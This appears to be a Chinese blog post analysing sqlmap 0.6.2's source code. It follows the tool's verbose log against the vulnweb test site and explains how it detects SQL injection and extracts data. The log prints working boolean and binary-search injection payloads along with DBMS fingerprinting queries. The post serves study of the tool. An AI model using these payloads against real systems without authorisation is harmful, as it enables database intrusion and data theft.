

# sqlmap早期版本(0.6.2)源码解析

直接看sqlmap代码太痛苦了，下载了一份最早期的sqlmap来研究，tag为0.6.2，这样应该可以看到sqlmap内核中最精彩的部分吧~

目标是了解sqlmap是怎么进行注入判断，然后自己写一款注入检测工具。

## 环境

下载地址：https://github.com/sqlmapproject/sqlmap/tree/0.6.2

VSCODE + Python插件。为了方便理解，我们从sqlmap的日志来逐条分析。使用命令 
```python 
python sqlmap.py -u 'http://testphp.vulnweb.com/artists.php?artist=1' -v 3

```

该命令会在检测注入的同时打印发送的URL。

## 日志
```
python sqlmap.py -u 'http://testphp.vulnweb.com/artists.php?artist=1' -v 3

    sqlmap/0.6.2 coded by Bernardo Damele A. G. <bernardo.damele@gmail.com>
                        and Daniele Bellucci <daniele.bellucci@gmail.com>

[*] starting at: 21:30:17

[21:30:17] [DEBUG] initializing the configuration
[21:30:17] [DEBUG] initializing the knowledge base
[21:30:17] [DEBUG] cleaning up configuration parameters
[21:30:17] [DEBUG] setting the HTTP method to perform HTTP requests through
[21:30:17] [DEBUG] creating HTTP requests opener object
[21:30:17] [DEBUG] parsing XML queries file
[21:30:17] [INFO] testing connection to the target url
[21:30:18] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:30:18] [INFO] testing if the url is stable, wait a few seconds
[21:30:21] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:30:29] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:30:30] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:30:35] [INFO] url is stable
[21:30:35] [INFO] testing if User-Agent parameter 'User-Agent' is dynamic
[21:30:36] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: 8851
Connection: close

[21:30:36] [WARNING] User-Agent parameter 'User-Agent' is not dynamic
[21:30:36] [INFO] testing if GET parameter 'artist' is dynamic
[21:30:37] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=3898 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:30:42] [INFO] confirming that GET parameter 'artist' is dynamic
[21:30:52] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=%27qJSfx HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:30:56] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=%22fpYtn HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:31:15] [INFO] GET parameter 'artist' is dynamic
[21:31:15] [INFO] testing sql injection on GET parameter 'artist' with 0 parenthesis
[21:31:15] [INFO] testing unescaped numeric injection on GET parameter 'artist'
[21:31:19] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%202263=2263 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:32:04] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%202263=2264 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:32:09] [INFO] confirming unescaped numeric injection on GET parameter 'artist'
[21:32:09] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ZxUEv HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:32:11] [INFO] GET parameter 'artist' is unescaped numeric injectable with 0 parenthesis
[21:32:11] [INFO] testing for parenthesis on injectable parameter
[21:32:13] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%29%20AND%20%284867=4867 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:32:15] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%29%29%20AND%20%28%287887=7887 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:32:18] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%29%29%29%20AND%20%28%28%284855=4855 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:32:18] [INFO] the injectable parameter requires 0 parenthesis
[21:32:18] [INFO] testing MySQL
[21:32:18] [INFO] query: CONCAT(CHAR(52), CHAR(52))
[21:32:21] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%201%2C%201%29%29%20%3E%2063%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:32:26] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%201%2C%201%29%29%20%3E%2031%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:32:31] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%201%2C%201%29%29%20%3E%2047%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:32:36] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%201%2C%201%29%29%20%3E%2055%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:32:37] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%201%2C%201%29%29%20%3E%2051%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:32:42] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%201%2C%201%29%29%20%3E%2053%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:32:56] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%201%2C%201%29%29%20%3E%2052%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:32:58] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%202%2C%201%29%29%20%3E%2063%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:33:02] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%202%2C%201%29%29%20%3E%2031%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:33:03] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%202%2C%201%29%29%20%3E%2047%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:33:06] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%202%2C%201%29%29%20%3E%2055%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:33:09] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%202%2C%201%29%29%20%3E%2051%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:33:26] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%202%2C%201%29%29%20%3E%2053%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:33:36] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%202%2C%201%29%29%20%3E%2052%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:33:38] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%203%2C%201%29%29%20%3E%2063%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:33:50] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%203%2C%201%29%29%20%3E%2031%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

[21:33:57] [TRAFFIC OUT] HTTP request:
GET /artists.php?artist=1%20AND%20ORD%28MID%28%28CONCAT%28CHAR%2852%29%2C%20CHAR%2852%29%29%29%2C%203%2C%201%29%29%20%3E%2015%20AND%209492=9492 HTTP/1.1
Host: testphp.vulnweb.com:80
User-agent: sqlmap/0.6.2 (http://sqlmap.sourceforge.net)
Connection: close

...

```

## 注入检测流程

  1. 首先访问一次页面，获取该页面的MD5值。
  2. 然后连续访问三次，看URL是否稳定
  3. 查看参数（User-Agent）、URL中参数、POST中的参数、Cookie中的参数是否是动态的（将内容用随机数字替换，若得到不同的内容则判定为动态，用随机数字判断完后还会用 `‘` \+ `随机字符`以及`\"`+`随机字符`再做一次测试）

  4. 当判断参数为动态时，进行注入检测

    1. 注入时会注意`(`的嵌套，所以会分别生成0~3个`(`加入到payload当中
    2. 当and 1=1 返回了和原始页面一致的MD5时，则会使用and 1=2来进行判断，若此时不一样，再用payload `and 随机字符`测试，若还不一样，则判定存在注入了。返回注入类型 numeric
    3. 还有通过检测其他的…
  5. 这里检测就应该结束了，但是后面还有一个`checkForParenthesis`，看意思应该是检测注入点所影响的几个括号？

    1. 通过payload `) and (1=1`，如果页面相同则可判定该括号的位置。

    2. 左右括号是生成payload是从1~4生成同数量的括号

    3. 因为前面已经判断了注入类型为numeric,所以这里用`1=1`，如果是其他，对应生成关系如下:

      1. %d 为随机数字
      2. %s 为随机字符

| 类型 | payload |  
| —————— | ——————- |  
| numeric | %d=%d |  
| stringsingle | ‘%s’=’%s |  
| likesingle | ‘%s’ LIKE ‘%s |  
| stringdouble | “%s”=”%s |  

    4. 通过kb.parenthesis保存这个括号的数量


## 利用sql注入点

在检测注入完成后会跳到`action`函数，函数的意思为

> 利用SQL注入点来操作数据库

检测完注入点后会通过先检测数据库的类型（支持Mysql、oracle、postgre、mssqlserver）。

在`plugins\dbms`目录下有对应的数据库检测插件来完成各种操作，shell,查表等等。

### Mysql数据库检测

数据库检测规则(mysql为例)在`plugins\dbms\mysql.py`中的`checkDbms`函数中，判断逻辑是
```python 
query = "CONCAT('%s', '%s')" % (randInt, randInt)

if inject.getValue(query) == (randInt * 2):
    pass

```

查看日志可知，sqlmap发送的是以下payload:`AND ORD(MID((CONCAT(CHAR(52), CHAR(52))), 1, 1)) > 63 AND 9492=9492`

可以推理得到`inject.getValue(query)`的作用是返回查询值。那么他是如何查询的呢？通过查看相关代码，如果第一次使用`inject.getValue(query)`会使用`二分法`来查询语句，最后得到执行后的结果。如果已经确定了数据库类型，会使用`union`语句来查询注入得到值。

要判断是什么数据库，sqlmap用的方法很简单，就是看一些特点函数能否执行。然后取版本也是，大体方向是这样的，剩下的就是各种语句来判断了。



### 如何执行其他命令

同理查找当前用户、输出数据库banner、获取数据库信息等等逻辑和上面一样，都是执行sql语句。`plugins\dbms\mysql.py`Mysql类继承了`Enumeration`,这个类在`plugins\generic`中，定义了如何操作数据库的各种操作

简单拿取当前数据库的函数说下:
```python 
def getCurrentDb(self):
        logMsg = "fetching current database"
        logger.info(logMsg)

        query = queries[kb.dbms].currentDb

        if not self.currentDb:
            self.currentDb = inject.getValue(query)

        return self.currentDb

```

从`xml\queries.xml`根据数据库类型取出查询语句，`inject.getValue(query)`执行返回结果。上面也说了，`inject.getValue`初次是二分法来查找，后面如果允许union注入的话就会使用这。

当然，有些操作会涉及到大量的容错判断，就没必要逐个分析了。

## 从这份代码学到的

使用`logging`设置输出的详细信息显示。

这一版本比较差异直接暴力的使用了Md5，在后面版本用的差异比较。

代码复用，比如`inject.getValue`很简单一个语句，却是整个程序的关键，多处地方都调用此函数。

明白为什么sqlmap不内置批量扫描了，因为sqlmap代码设置了很多全局变量(因为要存储很多信息)，这些变量调用也非常频繁。虽然后面出了sqlmap API,但是本质是多进程命令参数调用的sqlmap.py。

## End

这次分析主体流程是跟随log日志打印的输出来的，其他的一些细节没有关注，但是将sqlmap内核部分了解的差不多了，后续版本大多从这初始上面改进，再次了解肯定会事半功倍。

当然，本文描述的时候是总结性的，只有少量的代码，目的希望大家能自己跟一遍代码，自己了解了才是最好的~
